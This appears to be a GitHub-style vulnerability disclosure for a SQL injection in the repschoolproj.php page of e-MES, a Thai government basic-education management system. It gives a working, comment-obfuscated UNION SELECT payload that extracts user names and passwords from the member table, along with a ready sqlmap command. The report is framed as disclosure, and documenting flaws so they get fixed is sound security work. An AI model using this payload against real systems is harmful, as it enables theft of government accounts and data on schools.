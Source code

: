 `Describe：`
E-mes is an education management system of Thailand's basic education department. It has a serious SQL injection vulnerability, through which many sensitive information in the database can be obtained. This affects the whole e-mes version. As this is a system of the Thai government department, it can't be found on GitHub for the time being,I found a usage document in the government affairs section.

`Official documents`
>https://www.br2.go.th/attachments/article/2902/%E0%B9%81%E0%B8%9A%E0%B8%9A%E0%B8%A3%E0%B8%B2%E0%B8%A2%E0%B8%87%E0%B8%B2%E0%B8%99%E0%B8%82%E0%B9%89%E0%B8%AD%E0%B8%A1%E0%B8%B9%E0%B8%A5%E0%B9%83%E0%B8%99%E0%B8%A3%E0%B8%B0%E0%B8%9A%E0%B8%9A%20e-MES.pdf

`Attack Vectors`
> A SQL injection vulnerability exists in the school information query interface (repschoolproj.php) of the EMS system of the Office of the Thai Basic Education Commission, which can lead to important data leakage.This website is owned by the Thai government, and if it is not repaired in time, it may lead to information leakage.

`POC:` 
> http://localhost/eme/repschoolproj.php?claster=school&idarea=648 repschoolproj.php?claster=school&idarea=648  /*xxx*/ uNiOn select /* */ 1,1,user,1,1,1,1,1,2,3,4,5,6,7,1,1,9,10,passwd,12,13,1,1,1,1,user(),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from member#  
> This exp can get the login account and password of the e-mes system  
`photo proof`
![图片](https://user-images.githubusercontent.com/110643835/188271982-779a174a-41e3-47dd-b9eb-3ed62e59b4bb.png)
![图片](https://user-images.githubusercontent.com/110643835/188272051-c3890348-ee21-472e-b10e-2519c4ffd64a.png)


Or use sqlmap for injection
> POC: sqlmap.py -u "http://localhost/eme/repschoolproj.php?claster=school&idarea=648*"

